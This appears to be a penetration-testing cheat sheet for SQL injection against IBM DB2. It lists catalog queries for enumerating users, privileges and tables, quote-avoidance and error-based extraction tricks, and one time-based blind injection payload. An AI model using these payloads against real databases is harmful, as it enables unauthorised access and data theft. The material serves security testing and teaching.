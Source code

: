 # DB2 Injection

> IBM DB2 is a family of relational database management systems (RDBMS) developed by IBM. Originally created in the 1980s for mainframes, DB2 has evolved to support various platforms and workloads, including distributed systems, cloud environments, and hybrid deployments. 


## Summary

* [DB2 Cheatsheet](#db2-cheatsheet)
* [References](#references) 


## DB2 Cheatsheet

### Version

```sql
select versionnumber, version_timestamp from sysibm.sysversions;
select service_level from table(sysproc.env_get_inst_info()) as instanceinfo
select getvariable('sysibm.version') from sysibm.sysdummy1 -- (v8+)
select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo
select service_level,bld_level from sysibmadm.env_inst_info
```

### Comments	

```sql
select blah from foo -- comment like this (double dash)
```

### Current User

```sql
select user from sysibm.sysdummy1
select session_user from sysibm.sysdummy1
select system_user from sysibm.sysdummy1
```

### List Users

DB2 uses OS accounts

```sql
select distinct(authid) from sysibmadm.privileges -- priv required
select grantee from syscat.dbauth -- incomplete results
select distinct(definer) from syscat.schemata -- more accurate
select distinct(grantee) from sysibm.systabauth -- same as previous
```

### List Privileges

```sql
select * from syscat.tabauth -- shows priv on tables
select * from syscat.tabauth where grantee = current user -- shows privs for current user
select * from syscat.dbauth where grantee = current user;;
select * from SYSIBM.SYSUSERAUTH — List db2 system privilegies
```

### List DBA Accounts	

```sql
select distinct(grantee) from sysibm.systabauth where CONTROLAUTH='Y'
select name from SYSIBM.SYSUSERAUTH where SYSADMAUTH = ‘Y’ or SYSADMAUTH = ‘G’
```

### Current Database	

```sql
select current server from sysibm.sysdummy1
```

### List Databases

```sql
select distinct(table_catalog) from sysibm.tables
SELECT schemaname FROM syscat.schemata;
```

### List Columns

```sql
select name, tbname, coltype from sysibm.syscolumns -- also valid syscat and sysstat
```

### List Tables

```sql
select table_name from sysibm.tables
select name from sysibm.systables
```

### Find Tables From Column Name	

```sql
select tbname from sysibm.syscolumns where name='username'
```

### Select Nth Row

```sql
select name from (select * from sysibm.systables order by name asc fetch first N rows only) order by name desc fetch first row only
```

### Select Nth Char	

```sql
select substr('abc',2,1) FROM sysibm.sysdummy1 -- returns b
```

### Bitwise AND/OR/NOT/XOR

```sql
select bitand(1,0) from sysibm.sysdummy1 -- returns 0. Also available bitandnot, bitor, bitxor, bitnot
```

### ASCII Value

```sql
Char	select chr(65) from sysibm.sysdummy1 -- returns 'A'
```

### Char -> ASCII Value	

```sql
select ascii('A') from sysibm.sysdummy1 -- returns 65
```

### Casting

```sql
select cast('123' as integer) from sysibm.sysdummy1
select cast(1 as char) from sysibm.sysdummy1
```

### String Concat

```sql
select 'a' concat 'b' concat 'c' from sysibm.sysdummy1 -- returns 'abc'
select 'a' || 'b' from sysibm.sysdummy1 -- returns 'ab'
```


### IF Statement
Seems only allowed in stored procedures. Use case logic instead.

### Case Statement

```sql
select CASE WHEN (1=1) THEN 'AAAAAAAAAA' ELSE 'BBBBBBBBBB' END from sysibm.sysdummy1
```


### Avoiding Quotes

```sql
SELECT chr(65)||chr(68)||chr(82)||chr(73) FROM sysibm.sysdummy1 -- returns “ADRI”. Works without select too
```

### Time Delay

Heavy queries, for example: If user starts with ascii 68 ('D'), the heavy query will be executed, delaying the response. 
However, if user doesn't start with ascii 68, the heavy query won't execute and thus the response will be faster.
```sql
' and (SELECT count(*) from sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (select ascii(substr(user,1,1)) from sysibm.sysdummy1)=68 
```

### Serialize to XML (for error based)

```sql
select xmlagg(xmlrow(table_schema)) from sysibm.tables -- returns all in one xml-formatted string
select xmlagg(xmlrow(table_schema)) from (select distinct(table_schema) from sysibm.tables) -- Same but without repeated elements
select xml2clob(xmelement(name t, table_schema)) from sysibm.tables -- returns all in one xml-formatted string (v8). May need CAST(xml2clob(… AS varchar(500)) to display the result.
```

### Command Execution and Local File Access

Seems it's only allowed from procedures or UDFs.

### Hostname/IP and OS INFO

```sql
select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info -- requires priv
```

### Location of DB Files

```sql
select * from sysibmadm.reg_variables where reg_var_name='DB2PATH' -- requires priv
```

### System Config

```sql
select dbpartitionnum, name, value from sysibmadm.dbcfg where name like 'auto_%' -- Requires priv. Retrieve the automatic maintenance settings in the database configuration that are stored in memory for all database partitions.
select name, deferred_value, dbpartitionnum from sysibmadm.dbcfg -- Requires priv. Retrieve all the database configuration parameters values stored on disk for all database partitions.
```

### Default System Database

* SYSIBM
* SYSCAT
* SYSSTAT
* SYSPUBLIC
* SYSIBMADM
* SYSTOOLs


## References

- [DB2 SQL injection cheat sheet - Adrián - May 20, 2012](https://securityetalii.es/2012/05/20/db2-sql-injection-cheat-sheet/)
- [Pentestmonkey's DB2 SQL Injection Cheat Sheet - @pentestmonkey - September 17, 2011](http://pentestmonkey.net/cheat-sheet/sql-injection/db2-sql-injection-cheat-sheet)